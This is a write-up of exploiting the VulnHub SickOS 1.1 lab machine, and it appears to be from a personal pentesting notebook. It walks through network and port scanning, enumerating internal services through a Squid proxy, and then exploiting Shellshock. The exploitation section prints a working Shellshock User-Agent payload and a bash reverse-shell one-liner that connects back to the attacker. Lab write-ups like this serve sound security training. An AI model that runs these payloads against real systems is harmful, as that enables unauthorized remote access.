
![](../../Images/SickOS%201.1.png)


- Squid Proxy
- ShellShock Attack

---

Welcome to everyone, today we are going exploiting [SickOS 1.1](https://www.vulnhub.com/entry/sickos-11,132/) machine in [VulnHub](https://www.vulnhub.com/) platform

We have to download the ZIP and export this in our app ([Oracle Vritual Box](https://www.virtualbox.org/) or [VMWare](https://www.vmware.com/es/products/workstation-player/workstation-player-evaluation.html))

---

# Recon


The first of all we are going to do a local scan to identify the host in our network:

We are going to use [arp-scan](../../Tools/Enumeration/arp-scan/arp-scan.md)

````bash
sudo arp-scan -l --ignoredups
````

`-l` --> Do the arp scan in our **local network**

This use the local adapter, in my case is eth0, if you want to indicate other that are not by default, you can use `-I interfacename`

`--ignoredups` --> This switch is used to avoid duplicated IP 

![](../../Images/Pasted%20image%2020230831173638.png)

Now we are going to create our works directory

> mkdir {nmap.data,exploit}

Now we are going to try if the machine is available

> ping -c 1 192.168.1.38


![](../../Images/Pasted%20image%2020230831173723.png)

Don't worry if the ping don't work, if you realize an port scan with [Nmap](../../Tools/Enumeration/Nmap/Nmap.md), you can see that return some open ports

````bash
sudo nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 192.168.1.38 -oG allPorts
````

![](../../Images/Pasted%20image%2020230831173703.png)

Now with [ExtractPorts](../../Utils/S4vitaar/ExtractPorts/ExtractPorts.md) (util from [S4vitaar](https://www.youtube.com/s4vitar)) we can copy the ports to the clipboard and the information looks better.

![](../../Images/Pasted%20image%2020230831174725.png)

Now we can use an advance scan to discover the service and version that are running for this ports.

````bash
sudo nmap -sCV -p22,3128 192.168.1.38 -oN targeted
````

`-sCV` --> C launch some scripts to enum the services, and V for know the version of the services, these are two separated switches but can be used together

`-oN` --> Export the information in a file with **nmap format** (how you see in the output)

![](../../Images/Pasted%20image%2020230831175056.png)

We do a curl, but we don't get anything

````bash
curl http://website
````

In port scanning you don't have to see the 80 port open, if you realize an scan of the port 80 with nmap, they say that is **filtered**

````bash
sudo nmap -p80 192.168.1.38 -T5 -v -n
````

![](../../Images/Pasted%20image%2020230831175504.png)


You can try to use a proxy with curl command:
````bash
curl http://192.168.1.38 --proxy http://192.168.1.38:3128
````

Remember that the port 3128 was reported by nmap when scanning ports.

You can add an entry in [FoxyProxy](https://addons.mozilla.org/es/firefox/addon/foxyproxy-standard/): 

![](../../Images/Pasted%20image%2020230831175738.png)

If you enable it and put the ip you can see the website

Now you can use [Gobuster](../../Tools/Enumeration/Gobuster.md) to enum directories with the switch **--proxy **

````bash
gobuster dir -u http://192.168.1.38 --proxy http://192.168.1.38:3128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

![](../../Images/Pasted%20image%2020230831180156.png)

You can enumerate the internal port with an script in Python, this is in [Enumeration and exploiting SQUID Proxies](../../OWASP%20TOP%2010%20and%20web%20vulnerabilities/Enumeration%20and%20exploiting%20SQUID%20Proxies/Enumeration%20and%20exploiting%20SQUID%20Proxies.md)



![](../../Images/Pasted%20image%2020230831183405.png)

We can see in the internal ports that the service 80 and 3306 (MySQL) are exposed

We can do a curl to the port 3306

> curl http://127.0.0.1:3306 --proxy http://192.168.1.38:3128

![](../../Images/Pasted%20image%2020230831183554.png)

They say that we have to use the switch **--output** because is a binary file

> curl http://127.0.0.1:3306 --proxy http://192.168.1.38:3128 --output output

![](../../Images/Pasted%20image%2020230831183740.png)

Sometimes you need an **authentication**, you can this in the url:

> curl http://website --proxy http://admin:password@192.168.1.12:3128

---
## Exploiting Shell Shock

Remember where you are enum a server if you add an slash at the final you can discover more resources

````bash
gobuster dir -u http://192.168.1.38 --proxy http://192.168.1.38:3128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
````

`--add-slash` --> We add this switch to add an slash at the final

![](../../Images/Pasted%20image%2020230901140219.png)

Normally if you find a **/cgi-bin/** is recommendable to enum a [ShellShock Attack](../../OWASP%20TOP%2010%20and%20web%20vulnerabilities/ShellShock%20Attack/ShellShock%20Attack.md) 

With gobuster you can enum some extensions like pl, sh, cgi

````bash
gobuster dir -u http://192.168.1.38/cgi-bin/ --proxy http://192.168.1.38:3128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -x pl,sh,cgi
````

In this case we found a /status/

![](../../Images/Pasted%20image%2020230901141658.png)

If you open with the explorer you see this:

![](../../Images/Pasted%20image%2020230901141914.png)

If you reload the website, the uptime is changing

We can use curl and jq to see the data 

````bash
curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.1.38:3128 | jq
````

`-s` --> Don't show the verbose of the curl command

`jq` --> Command to see better the json files

In this case we are going to util this:

````bash
curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.1.38:3128 -H "User-Agent: () { :; }; /usr/bin/whoami"
````


![](../../Images/Pasted%20image%2020230901143137.png)

If you see at the first that the response don't return the output of the command you have to put echo; and the command

Sometimes you have to put more than one echo;

You have to use absolute paths to indicate the command, remember, in different system the path of the commands are different

````bash
curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.1.38:3128 -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
````

![](../../Images/Pasted%20image%2020230901143215.png)

Now you can see that the output is ok

---

## Gaining access to the machine

We can do the oneliner for gain access to the machine

In shellshock is recommendable to put the **absolute path for the bash **

````bash
curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.1.38:3128 -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.39/443 0>&1'" 
````

In some system will be /bin/bash or /usr/bin/bash

In this case is /bin/bash

We listening in 443 port and send the malicious curl request

And nice!! We gain access to the machine

![](../../Images/Pasted%20image%2020230901144013.png)



---

# Tags

#machine #recon #nmap #gnu/linux #squidproxies #shellshock #gobuster